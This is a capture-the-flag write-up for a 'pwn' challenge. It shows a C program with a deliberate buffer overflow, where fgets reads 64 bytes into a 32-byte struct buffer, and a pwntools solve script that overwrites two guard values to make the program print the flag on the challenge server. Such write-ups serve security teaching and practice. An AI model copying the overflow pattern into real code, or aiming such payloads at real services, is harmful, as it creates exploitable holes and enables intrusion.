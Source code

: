 # p0wn3d_2 - Pwn

This challenge provides a C program with a buffer overflow vulnerability:

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

struct __attribute__((__packed__)) data {
  char buf[32];
  int guard1;
	int guard2;
};

void ignore(void)
{
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
}

void get_flag(void)
{
  char flag[1024] = { 0 };
  FILE *fp = fopen("flag.txt", "r");
  fgets(flag, 1023, fp);
  printf(flag);
}

int main(void) 
{
  struct data second_words;
  ignore(); /* ignore this function */

  printf("I can't believe you just did that. Do you have anything to say for yourself?\n");
  fgets(second_words.buf, 64, stdin);
  sleep(2);
	puts("Yeah Yeah whatever");
	sleep(2);
	puts("I've got two guards now, what are you gonna do about it?");
	sleep(2);

  if (second_words.guard1 == 0xdeadbeef && second_words.guard2 == 0x0badc0de) {
    get_flag();
  }

  return 0;
}
```

The `data` struct has a 32 bytes buffer `buf`, followed by two 4 bytes guards: `guard1` and `guard2`. The `fgets` call reads 64 bytes into `buf`, overflowing into both guards. To get the flag, we need to overwrite `guard1` with `0xdeadbeef` and `guard2` with `0x0badc0de`.

## solve.py

```py
from pwn import *

payload = b'A' * 32 + p32(0xdeadbeef) + p32(0x0badc0de)

r = remote('p0wn3d2.kctf-453514-codelab.kctf.cloud', 1337)
r.recvuntil(b"I can't believe you just did that. Do you have anything to say for yourself?\n")
r.sendline(payload)
print(r.recvall().decode())
```
